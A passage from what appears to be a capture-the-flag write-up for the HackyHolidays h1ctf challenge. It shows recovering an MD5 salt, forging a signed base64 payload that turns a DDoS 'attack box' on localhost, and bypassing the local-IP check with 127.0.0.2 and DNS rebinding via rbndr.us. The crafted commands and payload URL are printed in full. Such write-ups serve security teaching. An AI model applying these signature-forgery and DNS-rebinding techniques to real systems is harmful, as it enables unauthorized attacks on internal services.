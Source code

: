 ```go
}
```

After 30 seconds or so, this program spat out the salt!

```
Found salt md5(salt+input): mrgrinch463
```

Amazing! Now I had the means to make the DDoS system trust my payload and take `127.0.0.1` as a parameter, forcing it to launch an attack on itself!

```bash
$ echo -n "mrgrinch463127.0.0.1" | md5sum
3e3f8df1658372edf0214e202acb460b  -
```

Assembling the payload:

```bash
$ echo '{"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}' | base64 -w0
eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQo= 
```

Trying it out on the endpoint:

{F1134511}

The system detected the target was local and cancelled the attack.

I decided to try `127.0.0.2`, which will also point at the local machine via loopback. This worked, and the attack was launched, but it was an unintended solution, as I didn't get presented with the flag:

{F1134509}

I went back to the drawing board to try and find the intended route. The attack script looked like it did a couple of things. First of all it got "host information", which I assumed meant resolving a hostname to an IP address and deciding if it was a local IP. Next it launched an attack on the given address.

After a bit of trial and error, I tried a DNS rebind attack. If I could provide a hostname which resolved to an "external" IP on the first step, but then resolved to `127.0.0.1` on the second, the check would pass and an attack would be launched on the local machine.

I built a payload using the `7f000001.c0a80001.rbndr.us` address provided by [taviso/rbndr](https://github.com/taviso/rbndr), which will constantly switch between resolving to 192.168.0.1 and 127.0.0.1:

```
https://hackyholidays.h1ctf.com/attack-box/launch/?payload=eyJ0YXJnZXQiOiI3ZjAwMDAwMS5jMGE4MDAwMS5yYm5kci51cyIsImhhc2giOiJkZTlkODJkNGFlOWE2MTY2MDcwMWU3ZTE4NDRlYTY0MyJ9Cg==
```

After several attempts trying to get things to resolve in the desired order:

{F1134507}

...and...

{F1134510}
